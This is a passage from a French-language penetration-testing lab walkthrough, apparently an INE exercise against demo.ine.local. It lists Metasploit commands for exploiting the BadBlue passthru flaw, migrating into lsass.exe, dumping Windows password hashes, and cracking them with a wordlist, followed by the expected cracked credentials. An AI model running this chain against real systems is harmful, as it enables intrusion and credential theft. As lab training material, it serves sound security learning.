 
## 6. Cracking des hashes

### Module de cracking auxiliaire
```bash
use auxiliary/analyze/crack_windows
set CUSTOM_WORDLIST /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
exploit
```

---

## Résultats attendus

### Credentials crackés
- **Administrator**: password
- **bob**: password1

---

## Commandes rapides - Résumé

```bash
# Reconnaissance
ping -c 4 demo.ine.local
nmap -sV -p 80 demo.ine.local

# Exploitation
/etc/init.d/postgresql start
msfconsole -q
use exploit/windows/http/badblue_passthru
set RHOSTS demo.ine.local
exploit

# Post-exploitation
migrate -N lsass.exe
hashdump
background
creds

# Cracking
use auxiliary/analyze/crack_windows
set CUSTOM_WORDLIST /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
exploit
```

---

## Points clés à retenir
